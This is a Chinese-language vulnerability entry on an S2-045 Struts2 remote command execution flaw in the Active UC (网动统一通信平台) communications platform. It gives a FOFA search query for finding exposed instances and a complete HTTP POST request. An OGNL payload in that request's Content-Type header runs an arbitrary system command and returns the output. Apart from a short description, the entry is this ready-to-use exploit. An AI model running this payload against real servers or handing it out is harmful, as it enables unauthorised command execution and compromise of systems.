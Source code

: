 # Active UC index.action 远程命令执行漏洞

## 漏洞描述

网动统一通信平台 Active UC index.action 存在S2-045远程命令执行漏洞, 通过漏洞可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> Active UC

## FOFA

> [!NOTE]
>
> title="网动统一通信平台(Active UC)"

## 漏洞复现

登录页面如下

![image-20210626131045931](http://wikioss.peiqi.tech/vuln/image-20210626131045931.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送如下请求包

```
POST /acenter/index.action HTTP/1.1
Cookie: SessionId=96F3F15432E0660E0654B1CE240C4C36
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Charsert: UTF-8
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}; boundary=---------------------------18012721719170
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 196

-----------------------------18012721719170
Content-Disposition: form-data; name="pocfile"; filename="text.txt"
Content-Type: text/plain

xxxxxxx
-----------------------------18012721719170
```

![image-20210626131402560](http://wikioss.peiqi.tech/vuln/image-20210626131402560.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)